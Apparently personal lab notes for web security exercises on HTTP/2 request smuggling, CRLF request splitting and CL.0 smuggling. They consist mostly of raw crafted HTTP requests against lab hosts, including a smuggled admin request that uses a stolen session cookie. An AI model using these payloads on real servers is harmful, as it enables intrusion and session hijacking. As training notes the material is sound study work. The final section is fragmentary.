 ##### HTTP/2 request smuggling via CRLF injection
Add a new header in the inspector with value bar (shift+enter) Transfer-Encoding: chunked
```
0

POST / HTTP/1.1
Host: 0a12003e0324d3d08115ac1a00a5001d.web-security-academy.net
Cookie: session=LnqD80cuKEGiqyPBvz95w9eS3RapFJrP
Content-Length: 810

search=x
```
![[Pasted image 20240108132039.png]]


##### HTTP/2 request splitting via CRLF injection
```
Using the Inspector, append an arbitrary header to the end of the request. In the header value, inject `\r\n` sequences to split the request so that you're smuggling another request to a non-existent endpoint as follows:

**Name**

`foo`

**Value**
bar\r\n \r\n GET /x HTTP/1.1\r\n Host: YOUR-LAB-ID.web-security-academy.net
```
GET /admin HTTP/2 Host: YOUR-LAB-ID.web-security-academy.net Cookie: session=STOLEN-SESSION-COOKIE


##### CL.0 request smuggling
Test endpoints vulnerable to ignore Content-Length
Add two requests to a group and send in sequence both
Change the `Connection` header of the first request to `keep-alive`
If vulnerable, recieve a 404
```
POST /resources/images/blog.svg HTTP/2
Host: 0aec0010048b77f1847ba91b00f000ef.web-security-academy.net
Cookie: session=3JAVWbW7FjDvOWKLu9ihCc7HFHJ6Pd69
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

GET /404040404 HTTP/1.1
Foo: x
```
Delete user
```
Test endpoints vulnerable to ignore Content-Length
POST /resources/images/blog.svg HTTP/2
Host: 0aec0010048b77f1847ba91b00f000ef.web-security-academy.net
Cookie: session=3JAVWbW7FjDvOWKLu9ihCc7HFHJ6Pd69
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
```